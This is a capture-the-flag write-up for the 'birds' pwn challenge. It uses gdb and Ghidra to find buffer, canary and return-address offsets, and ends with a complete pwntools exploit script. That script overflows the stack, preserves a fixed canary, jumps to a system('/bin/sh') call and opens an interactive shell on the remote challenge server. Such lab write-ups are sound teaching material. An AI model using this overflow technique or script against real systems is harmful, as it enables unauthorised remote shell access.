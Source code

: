 ##### pwn challenge
Required Tools: 
- checksec
- gdb debugger
- Linux operating system or Windows Subsystem for Linux (WSL)
- pwntools

For this challenge, all that we need to do is find the distance between the buffer, the canary, and the return address at the end of main. After that, we just need to understand pwntools, how stack memory works, and how assembly works, and we can write a quick exploit script in python to get shell access to the remote server and print the flag.

### 1.  Finding all of our needed offsets
- We will use gdb to debug the **birds** executable. We will set two breakpoints. One at the instruction that takes place right after the buffer is filled, and another right on the RET instruction.
- Because this program is so simple you may be able to tell where to place both of these breakpoints by running the command **disas main** 
![[main disassembly.png]]

We can go ahead and place our breakpoints  at the RET instruction, and at the cmpl assembly instruction
```
(gdb) b *0x40125d
Breakpoint 1 at 0x40125d                                                                                                                               
(gdb) b *0x401285
Breakpoint 2 at 0x401285 
```

If you want to make sure you are understanding correctly and are placing your breakpoints at the right spot, you can open up the executable in ghidra or IDA pro and compare memory addresses with their places in the decompiled C code.

After analyzing the executable, we find **main** in the symbol tree under functions. We can see that, although gdb and Ghidra disassembled the birds executable a little differently, that we have the correct position for both the start of the if statement, and the return address for main
![[ghidra-1.png]]

While we are in gdb and ghidra, let us also figure out the address of the call to run the shell. We can skip straight to this address in memory to avoid having to call a gadget.

Let's first disassemble win() in gdb, find the address we think is the system call to run the shell, and then verify we are correct with ghidra
 ![[win disassembly.png]]
It appears that the system call in **win** happens at 0x4011e6 in memory. And we can verify this in ghidra by finding **win** in the Symbol Tree
![[win breakpoint.png]]

**WATCH OUT!**

If we assumed that this memory address is where we should jump to in order to execute our shell system call, we would be mistaken! We have to remember that function calls require setup in assembly. The system function call requires an argument  (a command). Recall that in linux x86-64 assembly, RDI is a functions first argument, followed by RSI, RDX , RCX, and so on. This means that RDI must be filled with the system command '/bin/sh' before the system call, otherwise the function call will fail or behave unpredictably. 

From looking at ghidra's visual debugger, we can see that inside of the IF statement there are 2 lines of preparation before the system call is made. This means we should override main's return address with **0x4011dc** , which will bring us right to our shell system call.
![[Assembly Preparation.png]]

Ok, so now it's time to run birds with the breakpoints we have set. 
1. On our first breakpoint, we are trying to determine the distance between the buffer and the canary
2. On our second breakpoint, we are trying to find the return address of main, so that we can find the distance between the canary and the return address.

When we run birds in gdb, we are prompted to fill the buffer. Go ahead and fill the buffer with 64 characters of any kind. Each character is a byte, that's why the buffer size and the character count is the same. In my debugging session I put in 64 A's.

Feel free to copy/paste

```AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ```

Once you press enter, you will be stopped at our first breakpoint. 

At this breakpoint we want to examine the stack to see where the buffer ends and the canary begins. To inspect the stack, run the below command:
**x/127wx $rsp**
![[stack-screenshot.png]]
- Lets break down the above GDB command:
	- x/ -> examine -> used to inspect memory
	- 128 -> Specifies the number of units to examine, in this case, 128 units
	- w -> Stands for "word", which means each unit is 4 bytes / 32 bits
	- x -> Specifies the format, which in this case is hexadecimal
	- $rsp Refers to the stack pointer register
	- All of the A's here display as 0x41, because the ASCII representation of A is 0x41 in hexadecimal (65 in decimal)

Since each group of data displayed here is 4 bytes, we can tell that there are **12 bytes of data** in between the buffer and the canary

Let's keep this screenshot in mind and continue to the next breakpoint. We can continue by typing **c**

Once we break at the RET instruction, all we have to do is step one instruction forward and find the contents of RIP. Recall that RIP is the instruction pointer. Because we broke right before RET, if we step one instruction forward with the command **stepi**, the next instruction will be where we are returning to, AKA the return address of main.

If we run the command **info stack frame**, we can find the contents of RIP , and try and find this address on the stack that we took a screenshot of before.
![[RIP Contents.png]]

We found that the return address is 8 bytes away from the canary!

![[stack-screenshot-Highlights.png]]

We now know everything we need in order to write our pwntools script.

We can take advantage of pwntools p32() and p64() functions to add our canary and return address data to the payload, as the data needs to be changed from big endian to little endian format in order for the CPU to read it properly.

pwntools script:

```
from pwn import *

# -- PAYLOAD CREATION -- #
payload = b"A"*64
payload += b"B" * 12
payload += p32(0xDEADBEEF)
#payload += b"\xef\xbe\xad\xde" <- what the canary ends up as

payload += b"C" * 8
payload+= p64(0x00000000004011dc)
#payload += b"\xdc\x11\x40\x00\x00\x00\x00\x00" <- what the ret addr ends up as

print(payload)

# ---------------------- #


# EXECUTABLE CONNECTION #

# If you are connecting to a local process, use the below

#p = process('./birds')
#p.sendline(payload)
#p.interactive()

# If you are connecting to a remote server, use the below

target_host = "tjc.tf"
target_port = 31625

conn = remote(target_host, target_port)
conn.recvuntil("wrong!\n")
conn.sendline(payload)
conn.interactive()

# --------------------- #
```

Explanation of big -> little endian conversion

Recall that in big endian format, numbers to the left are more significant than numbers on the right. Humans use big endian number formatting.

In little endian format, numbers to the right are more significant than numbers to the left.

For example, consider the big endian number 123. In little endian, that number would be written as 321. But they refer to the same value.

gdb converts stack memory from little endian to big endian for readability purposes. But when we perform our buffer overflow attack, we have to make sure the data ends up on the stack in little endian format.

However, each character/byte is represented with two hexidecimal digits. These two digits don't change order. ![[big-little-endian.png]]

Putting the connection in interactive mode allows the user to run shell commands.#
